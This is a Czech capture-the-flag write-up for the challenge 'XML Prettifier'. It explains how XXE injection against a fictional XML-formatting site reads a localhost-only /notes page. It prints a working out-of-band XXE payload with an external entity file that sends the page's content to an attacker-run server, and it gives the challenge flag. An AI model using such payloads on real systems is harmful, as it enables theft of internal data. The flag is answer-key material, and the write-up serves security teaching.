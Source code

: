 # XML Prettifier
Úloha z kategorie *Corporate websites* za 4 body

## Zadání

> Hi, packet inspector,
>
> some former employe of Mysterious Delivery Ltd. has created prettifier for XML code. It is polite to provide information to the AI in nicely formatted XML, isn't it? Rumors say that the employee also left some crucial information somewhere on the web.
>
> Find the crucial information on webpage http://prettifier.mysterious-delivery.tcc:50000 .
>
> May the Packet be with you!

## Nápovědy

> Use VPN to get access to the web.

## Řešení

Jako první je nutné pro vyřešení této úlohy se připojit na The Catch VPN. Bez připojení totiž není možné se připojit k webové stránce.

V této úloze dostaneme přístup k webové stránce, která slouží k formátování `XML` souborů. Dále v navigaci nalezneme endpoint `/notes`, který je dostupný pouze z localhostu. Je tedy nutné provést request ze stejného serveru, kde běží webový server.

Zde můžeme využít injection útoku, přesněji `XXE Injection`. V XML je možné si totiž definovat novou entitu. Tato entita může být načtena klidně ze souboru či webové stránky. Bohužel výpis obsahu samotné stránky nám prettifier nedovolí, jelikož obsah stránky není ve formátu XML. Můžeme ale využít alternativní metodu.

V prettifieru můžeme načíst externí soubor s entitami z našeho běžícího serveru. V tom si definujeme entitu, která se načítá ze stránky `/notes`. Dále provedeme request na neexistující webovou stránku, kde do `query` vložíme obsah stránky z předchozí entity. Nakonec entity postupně vykonáme. Výsledkem je chybová hláška o chybném requestu, kde dostaneme přesný obsah stránky `/notes` i s flagem.

V této úloze je také možné využít přiložený script v Pythonu. Poté je cesta k souboru s entitami `http://[OpenVPN IP]:8000/`

### Obsah do prettifieru
```
<?xml version='1.0' standalone='yes'?>
<!DOCTYPE foo [ <!ENTITY % xxe SYSTEM "(cesta k souboru s entitami)"> %xxe; ]>
```

### Obsah souboru s entitami
```
<!ENTITY % file SYSTEM "http://127.0.0.1:50000/notes">
<!ENTITY % eval "<!ENTITY &#x25; exfiltrate SYSTEM 'http://127.0.0.1:8000/?a=%file;'>">
%eval;
%exfiltrate;
```

## Flag
`FLAG{GG53-5U3w-VT8F-qB31}`

## Další užitečné odkazy

- **XML Entity declaration** *(vysvětlení XML entit)* - https://xmlwriter.net/xml_guide/entity_declaration.shtml
- **XXE Injection** *(podrobné vysvětlení zranitelnosti)* - https://portswigger.net/web-security/xxe